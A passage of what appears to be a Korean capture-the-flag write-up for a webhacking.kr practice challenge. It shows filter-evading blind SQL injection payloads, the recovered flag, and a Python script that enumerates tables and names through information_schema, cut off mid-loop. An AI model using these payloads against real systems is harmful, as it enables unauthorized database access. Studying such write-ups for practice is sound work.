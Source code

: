 ```
(0)or(length((select(min(flag_3a55b31d))from(flag_ab733768)))in(4))
(0)or(length((select(max(flag_3a55b31d))from(flag_ab733768)))in(27))
```
데이터의 길이는 각각 4와 27이다.  

길이를 보면 두 번째 데이터가 flag일 것이다.  

```
(0)or(ord(substr((select(max(flag_3a55b31d))from(flag_ab733768)),1,1))in(70))
```
`FLAG{challenge13gummyclear}`  

## Payload

```python
import requests
import binascii

url = "https://webhacking.kr/challenge/web-10/"
cookies = {"PHPSESSID": "645mcncev57fa2vfm3kqp58rim"}

# 1. Find the number of tables
table_num = 0
for i in range(1, 20):
    payload = f"(0)or(select(count(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables))in({i})"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        table_num = i
        print(f"table_num: {table_num}")
        break

# 2. Find the length of the table1 name
table1_len = 0
for i in range(1, 20):
    payload = f"(0)or(length((select(min(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables)))in({i}))"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        table1_len = i
        print(f"table1_len: {table1_len}")
        break

# 3. Find the length of the table2 name
table2_len = 0
for i in range(1, 20):
    payload = f"(0)or(length((select(max(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables)))in({i}))"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        table2_len = i
        print(f"table2_len: {table2_len}")
        break

# 4. Find the table1 name
table1_name = ''
for i in range(1, table1_len + 1):
    for j in range(32, 128):
```